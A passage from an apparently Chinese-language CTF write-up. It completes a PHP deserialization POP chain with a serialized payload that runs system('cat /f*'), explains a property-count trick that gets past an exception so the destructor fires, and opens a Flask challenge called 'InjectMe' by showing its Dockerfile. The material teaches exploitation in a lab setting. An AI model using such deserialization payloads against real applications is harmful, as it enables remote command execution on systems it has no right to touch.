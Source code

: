 ```
$e->var='cat /f*';
echo serialize($a);

#O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:7:"cat /f*";}}}}}
```

现在链条已经完成，但是在源码的最后一行存在一个异常抛出，这个抛出会打断程序的正常执行，造成我们无法开始destruct反序列化

这里贴一个博客：[\[原创\]利用PHP垃圾回收机制构造POP链-CTF对抗-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-271714.htm)

解决方法很简单，就和绕过wakeup一样，把属性个数改大一个就行了

![](./images/1698062074-image.png)

### InjectMe

题目给的附件源码👇

```
FROM vulhub/flask:1.1.1
ENV FLAG=flag{not_here}
COPY src/ /app
RUN mv /app/start.sh /start.sh && chmod 777 /start.sh
CMD [ "/start.sh" ]
EXPOSE 8080
```

可以看出这是一个flask框架搭建的网站，而且存在app目录

在cancanneed路由下的110.jpg中发现部分源码
